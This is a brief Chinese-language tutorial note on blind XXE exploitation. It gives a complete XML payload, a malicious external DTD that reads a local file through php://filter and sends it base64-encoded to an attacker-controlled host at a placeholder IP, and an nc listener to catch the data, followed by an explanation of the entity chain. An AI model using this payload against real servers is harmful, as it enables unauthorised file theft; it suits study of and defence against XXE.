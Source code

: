 ## XXE 无回显利用方式总结

可以使用外带数据通道提取数据，先用file://或php://filter获取目标文件的内容，然后将内容以http请求发送到接收数据的服务器（攻击服务器）

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>

```

##### evil.dtd的内容，内部的`%`号要进行实体编码成`%`

> 这里已经改好了

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>">

```

最后用nc进行本地监听

```bash
nc -lvv 9999

```

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


